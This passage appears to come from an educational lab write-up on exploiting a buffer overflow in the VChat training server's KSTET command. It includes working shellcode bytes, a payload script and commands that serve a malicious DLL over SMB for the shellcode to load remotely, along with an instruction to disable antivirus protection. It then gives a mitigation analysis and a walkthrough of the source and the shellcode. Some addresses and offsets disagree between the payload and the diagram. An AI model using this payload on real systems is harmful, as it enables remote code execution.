1. First we need to add the shellcode we generated to the exploit program as was done for the [exploit5.py](./SourceCode/exploit5.py) example script.

	1. We add the shellcode itself to the script as shown below:
		```python
		SHELL_LIB = (
			b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e\x68' +
			b'\x2e\x38\x5c\x58\x68\x2e\x30\x2e\x32\x68\x5c\x5c\x31\x30\x54\xbb\xa0'+
			b'\x12\xba\x76\xff\xd3'
		)
		```
	2. We modify the payload to include the shellcode next.
		```python
		PAYLOAD = (
			b'KSTET ' +
			b'\x90' * 2 +
			SHELL_LIB +
			b'A' * (66 - len(SHELL_LIB) - 2) +
			# 625011BB    FFE4                        JMP ESP
			struct.pack('<L', 0x625014E6) +
			# JMP SHORT 0xb5
			b'\xeb\xb8' +
			b'C' * (26 - 2)
		)
		```
2. Now, we can verify the shellcode is being transmitted properly.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/e40033a1-dddb-498c-82f3-305e54339134

   1. Click on the black button highlighted below, and enter in the address we decided in the previous step.

		

   2. Set a breakpoint at the desired address (right-click).

		

   3. Run the [exploit3.py](./SourceCode/exploit5.py) program until an overflow occurs (See EIP/ESP and stack changes), you should be able to tell by the black text at the bottom the screen that says `Breakpoint at ...`.

		

	4. Step into the breakpoint till you see the shellcode that has been injected into the stack! It should look familiar, you can use the *step over* button next to the *step into* function to verify our shellcode is working as expected.

		

		* *Note*: The Windows 10 machine may detect the retrieval of mal.dll from the attacker's machine and block the operation, as shown in the following image:

		

		* You should allow this and disable real-time protection.

			

3. Run a [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 and then run [exploit12b-MSF.py](./SourceCode/exploit6.py).

	```
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command.
	* `-l`: Set netcat to listen for connections.
	* `v`: Verbose output.
	* `p`: Set to listen on a port, in this case port 8080.

4. If the SMB share has not been started, navigate to where your malicious DLL is located and start it.
	```
	$ sudo impacket-smbserver -smb2support ABCD .
	```
	* `sudo`: This command and operation requires root privileges to bind to the well-known SMB port 445.
	* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
	* `smb2support`: Enable SMB2 Support.
	* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
	* `.`: This is the current directory we are in, we can specify a path to share a specific directory.
5. Run the [exploit5.py](./SourceCode/exploit5.py) program!

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/8da0d1be-485d-4e47-93b2-91c53a917773

The diagram below shows the stack layout when the malicious string is injected on the stack. The JMP ESP overwrite the return address of the victim function. When the victim function returns, it runs the JMP SHORT instruction. The JMP SHORT jumps to the start of the buffer and runs the shellcode, which loads the remote DLL.
``` 
   |-----------------------------------|
   | b'C' * (24)                       |
   |-----------------------------------|
---| b'\xeb\xc2'                       | # JMP SHORT <---
|  |-----------------------------------|                |
|  | struct.pack('<L', 0x625026D3)     | # JMP ESP   ----
|  |-----------------------------------|
|  | b'A' * (58 - len(SHELL_LIB) - 2)  |
|  |-----------------------------------|
|  | SHELL_LIB                         |
|  |-----------------------------------|
|  | b'\x90' * 2                       |
-->|-----------------------------------|
   | b'KSTET '                         |
   |-----------------------------------|
```

## Attack Mitigation Table
In this section, we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server; specifically we will be discussing their effects on a buffer overflow that overwrites a return address and attempts to execute shellcode that has been written to the stack, this shellcode will then use the `LoadLibraryA(...)` function in order to run a larger second stage. We will make a note here that these mitigations may be bypassed.

> [!NOTE]
> This exploit is similar to the [KSTET MultiStaged](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit, the main difference being how the second stage is loaded and ran.

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigation we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed, as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate functions and data structures as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled, its addresses will only be randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on the heap itself, such as allocations or frees of heap objects.

### Individual Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|No Effect| | | |X |X | X| X| X|
|Partial Mitigation| | |X| | | | |
|Full Mitigation|X| | | | | | | |
---
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|No Effect| | |X |X |X | X| X| X|
|Partial Mitigation| | |X| | | | |
|Full Mitigation| |X| | | | | | |
---
|Mitigation Level|Defenses|
|-|-|
|No Effect|SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG)|
|Partial Mitigation|Address Space Layout Randomization|
|Full Mitigation|Buffer Security Checks (GS) ***or*** Data Execution Prevention (DEP)|
* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack-based buffer overflows that overwrite a function's return address or arguments. This is because the randomly generated security cookie is placed before the return address, and its integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address, in order for us to overflow the return address, we would have to corrupt the security cookie, allowing us to detect the overflow.
* `Defense: Data Execution Prevention (DEP)`: This mitigation strategy proves effective against stack-based buffer overflows that attempt to **directly execute** shellcode located on the stack as this would raise an exception.
* `Defense: Address Space Layout Randomization (ASLR)`: This is partially effective as the addresses of the external functions we call are randomized. However, the randomization of the addresses is only guaranteed when the DLLs have been unloaded from memory, which for these common libraries is only guaranteed when the system reboots. Thus, the addresses of the external functions we leverage  and reuse will be the same until we reboot.
* `Defense: SafeSEH`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: SEHOP`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps. 
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
>
> `Defense: Data Execution Prevention (DEP)`: If the attacker employs a [ROP Technique](https://github.com/DaintyJet/VChat_TRUN_ROP) then this defense can by bypassed.
>
> `Defense: Address Space Layout Randomization (ASLR)`: This defense can be bypassed if the attacker can leak addresses, or they may brute force the offsets of functions they are calling in the shellcode. This mitigation does not prevent the exploit but simply makes it harder and less reliable.
 ### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|Defense: Buffer Security Check (GS)|X|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: ASLR increases the randomness of the generated security cookie. Additionally, this makes it harder for attackers to reuse external functions loaded by the program.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | | |
|Defense: Data Execution Prevention (DEP)|**Increased Security**: Combining two effective mitigations provides the benefits of both.|X| **Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | |
|Defense: Address Space Layout Randomization (ASLR)|**Increased Security**: ASLR increases the randomness of the generated security cookie. Additionally, this makes it harder for attackers to reuse external functions loaded by the program..|**Increased Security**: Combining two effective mitigations provides the benefits of both.|X|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | 

> [!NOTE]
> We omit repetitive rows representing ineffective mitigation strategies as their cases are already covered.
## VChat and Exploit Code

### VChat Code
As with the previous exploits, the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.


Below is the code segment that handles the `KSTET` message type.
```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
	char* KstetBuf = malloc(100);
	strncpy(KstetBuf, RecvBuf, 100);
	memset(RecvBuf, 0, DEFAULT_BUFLEN);
	Function2(KstetBuf);
	SendResult = send(Client, "KSTET SUCCESSFUL\n", 17, 0);
}
```
The buffer we copy to is only 100 bytes, and by using the [`strncpy(char * destination, const char * source, size_t num )`](https://cplusplus.com/reference/cstring/strncpy/) function, we guarantee we will only copy 100 bytes from the source into the destination buffer. This prevents buffer overflows as we limit the number of character copied not by the size of the source, but based on something we specify. Then to prevent malicious code from existing in memory, as the original Vulnserver did not free the receiving buffer the line `memset(RecvBuf, 0, DEFAULT_BUFLEN);` zeros out the receiving buffer. Then the code calls `Function2(...)`; this is where the overflow occurs. 

```c
void Function2(char* Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Within `Function2(char* input)`, we copy the buffer that possibly contains 100 bytes into a locally declared buffer that has 60 bytes of space allocated. As we use the [`strcpy(char * destination, const char * source)`](https://cplusplus.com/reference/cstring/strcpy/) function, this copies from the source (100 bytes) to the destination buffer (60 bytes) until a null terminator is detected in the source buffer.

### Shellcode
The resulting shellcode is shown below:
```s
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\10.0.2.15\ABCD\mal.dll reversed
push 0x6c616d5c
push 0x44434241
push 0x5c35312e
push 0x322e302e
push 0x30315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76ba12a0      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\10.0.2.15\ABCD\mal.dll")'
```

We first adjust the stack pointer stored in the `ESP` register: `sub esp,0x64`. This is done to prevent the setup of the function call and any later calls made by LoadLibraryA from overwriting our shellcode. However, this is not too much of a concern here, as once we finish with the LoadLibraryA call, we are not too concerned with what happens in this thread.

We next zero out the `EBX` register, this is so we can push the NULL value stored in the `EBX` register to the stack to act as our *null terminator*.

We then push the UNC string in reverse order to the stack, followed by the `ESP` registers value as this now points to the start of the UNC string which is our single argument to the LoadLibraryA function.

Finally we put the address of the LoadLibrayA function as found by Arwin into the `ebx` register (This is arbitrary), and call the function.

## Test code
1. [exploit0.py](./SourceCode/exploit0.py): Sending 100 `A`s to crash the server.
2. [exploit1.py](./SourceCode/exploit1.py): Sending a cyclic pattern of chars to identify the offset that we need to inject to control EIP.
3. [exploit2.py](./SourceCode/exploit2.py): Sending 66 `A`s followed by 4 `B`s to verify the offset we discovered from the Cyclic Group.
4. [exploit3.py](./SourceCode/exploit3.py): Replacing the bytes at the offset discovered by exploit1.py with the address of an *JMP ESP* instruction.
5. [exploit4.py](./SourceCode/exploit4.py): Adding a short *JMP* instruction for jumping to the start of the buffer.
6. [exploit5.py](./SourceCode/exploit5.py): Adding the LoadLibraryA shellcode to the start of the buffer.
4. [shellcode.asm](SourceCode/shellcode.asm) : Shellcode of calling LoadLibraryA function.
